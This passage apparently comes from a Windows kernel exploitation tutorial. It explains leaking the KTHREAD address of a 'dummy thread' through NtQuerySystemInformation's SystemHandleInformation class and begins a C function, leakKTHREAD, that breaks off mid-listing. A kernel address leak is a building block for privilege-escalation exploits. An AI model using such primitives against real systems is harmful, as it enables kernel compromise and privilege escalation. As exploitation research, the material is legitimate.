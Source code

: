 After resolving the function, we can add a function which contains our "logic" for leaking the `KTHREAD` object associated with our "dummy thread". This function will call `leakKTHREAD` - which accepts a parameter, which is the thread for which we want to leak the object (in this case it is our "dummy thread"). This is done by leveraging the `SystemHandleInformation` class (which is blocked from low-integrity processes). From here we can enumerate all handles that are thread objects on the system. Specifically, we check all thread objects in our current process for the handle of our "dummy thread".

```c
/**
 * @brief Function used to leak the KTHREAD object
 *
 * This function leverages NtQuerySystemInformation (by
 * calling resolveFunc() to get NtQuerySystemInformation's
 * location in memory) to leak the KTHREAD object associated
 * with our previously created "dummy thread"
 *
 * @param dummythreadHandle - A handle to the "dummy thread"
 * @return A pointer to the KTHREAD object
 */
ULONG64 leakKTHREAD(HANDLE dummythreadHandle)
{
	//
	// Set the NtQuerySystemInformation return value to STATUS_INFO_LENGTH_MISMATCH for call to NtQuerySystemInformation
	//
	NTSTATUS retValue = STATUS_INFO_LENGTH_MISMATCH;

	//
	// Resolve ntdll!NtQuerySystemInformation
	//
	NtQuerySystemInformation_t NtQuerySystemInformation = resolveFunc();

	//
	// Error handling
	//
	if (NtQuerySystemInformation == (NtQuerySystemInformation_t)1)
	{
		//
		// Print update
		//
		printf("[-] Error! Unable to resolve ntdll!NtQuerySystemInformation. Error: 0x%lx\n", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Set size to 1 and loop the call until we reach the needed size
	//
	int size = 1;

	//
	// Output size
	//
	int outSize = 0;

	//
	// Output buffer
	//
	PSYSTEM_HANDLE_INFORMATION out = (PSYSTEM_HANDLE_INFORMATION)malloc(size);
```